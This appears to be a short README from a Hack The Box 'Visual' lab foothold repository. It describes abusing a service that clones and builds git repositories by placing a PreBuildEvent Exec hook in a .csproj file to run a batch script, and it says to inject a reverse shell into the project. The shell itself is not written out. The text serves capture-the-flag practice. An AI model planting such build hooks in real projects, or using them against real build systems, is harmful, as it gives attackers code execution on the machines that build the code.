 ### HTB Visual machine

Intial foothold repository

1. Using Evilsln technique to execute code in application accepting git link
- Application accepting git link as input => Clone repo and build the project

- Ultilize `PreBuildEvent` attribute in `.csproj` file to execute commands:
  
    > \<Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    >  \<Exec Command="call prebuild.bat" />
    >  \</Target>
  
- Referenece: `https://github.com/cjm00n/EvilSln`



1. Create a C# project so with malicious `.csproj`:
- Create new C# project uing: `dotnet new console --framework net6.0 --use-program-main`
- Add a new sln template to project: `dotnet new sln`
- Add project to sln template: `dotnet sln add .\Visual.csproj`
- Inject reverse shell into `Visual.csproj`